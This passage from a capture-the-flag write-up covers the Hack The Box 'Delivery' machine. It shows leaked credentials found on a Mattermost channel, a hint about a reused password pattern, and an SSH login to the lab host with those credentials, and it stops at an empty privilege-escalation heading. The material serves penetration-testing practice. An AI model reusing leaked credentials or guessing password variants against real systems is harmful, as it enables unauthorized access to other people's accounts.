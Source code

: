 Credentials leaked due to an insecure communication channel:

![Pasted image 20210426203342.png](../../zzz_res/attachments/Pasted_image_20210426203342.png)

>[!important]
>maildeliverer	Youve_G0t_Mail!

> [!hint]
> Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "**PleaseSubscribe!**"

# Exploitation

## Login reusing credentials found on Mattermost

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Delivery]
└─$ ssh maildeliverer@10.10.10.222
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ whoami
maildeliverer
```

# Privilege Escalation
